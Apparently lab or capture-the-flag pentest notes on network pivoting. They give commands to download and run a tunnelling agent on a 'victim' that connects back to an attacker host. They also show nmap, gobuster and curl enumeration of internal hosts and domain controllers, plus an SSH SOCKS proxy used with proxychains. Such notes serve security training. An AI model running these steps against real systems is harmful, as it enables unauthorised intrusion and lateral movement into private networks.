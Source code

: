 #### Agent Deployment in Victim Machine
```bash
# Serve agent from attacker machine
python3 -m http.server 8899

# Download and execute on victim
wget http://10.10.200.225:8899/agent
./agent -connect 10.10.200.225:443 -ignore-cert

# Activate tunnel
session
list_tunnels
start
```

####  Secondary Target Enumeration
```bash
# Scan discovered network (192.168.98.0/24)
nmap -v -sn 192.168.98.0/24 2>/dev/null
nmap -sS -sC -sV -p 445,3389,5985 192.168.98.0/24

# Identify key targets
# .2 - Domain Controller
# .30 - MGMT server
# .120 - Child Domain Controller

# Web service enumeration
curl -s http://10.10.10.20/
gobuster dir -u http://10.10.10.20/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 64

# Check for elfinder
curl -s http://10.10.10.20/elfinder/
curl -s http://10.10.10.20/elfinder/files/
curl -s http://10.10.10.20/elfinder/files/AD_Resources.txt
```


### Method 2: Proxychains

# Pivoting into Restricted Subnet with SSH + Proxychains

- **Attack Box Network**: `192.168.10.0/24`
- **Accessible Machine (DC)**: `192.168.10.100` (reachable via SSH with valid creds)
- **Target Subnet**: `10.10.1.0/24` (only accessible through `192.168.10.100`)

Goal: Use **proxychains** to pivot traffic into the `10.10.1.0/24` subnet.
##### Step 1: Create a Dynamic SOCKS Proxy via SSH
Run the following command from your attack box:

```bash
ssh -D 1080 -q -C -N user@192.168.10.100
```

